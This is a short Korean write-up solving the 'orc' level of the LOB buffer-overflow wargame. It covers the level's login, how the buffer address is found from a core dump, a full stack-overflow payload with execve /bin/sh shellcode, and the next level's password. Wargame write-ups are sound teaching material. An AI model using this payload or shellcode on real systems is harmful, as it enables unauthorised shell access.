

# [LOB] orc Write-up


```
login : goblin
Password : hackers proof
```

위의 계정으로 로그인하면 된다.

```
[goblin@localhost goblin]$ cat orc.c
```
orc.c의 내용은 다음과 같다.


이번 문제에서는 환경변수를 초기화시킨다. 또한 RET 주소가 "\xbf" 로 시작해야 하기 때문에 스택을 이용해야 한다. 

```
[goblin@localhost goblin]$ cp orc aaa
```

orc 파일을 복사한 뒤 core 덤프를 떴다. 



buffer와 SFP까지 `\x90`으로 채우고, RET 를 `\xff\xff\xff\xbf`로 채웠다. 그 뒤 쉘코드를 넣을 자리에 `A`로 채웠다.


$esp로 확인해봤더니 `\x90`이 채워져있고, `\xff\xff\xff\xbf`, 그리고 `A`가 채워져있다. `A`가 채워지는 시작 부분이 쉘코드 시작 부분이므로 RET 주소가 `0xbffffae0`이 되면 된다.

```
./orc `python -c 'print "\x90"*44+"\xe0\xfa\xff\xbf"+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
```

페이로드는 위와 같다.


비밀번호는 **cantata** 이다.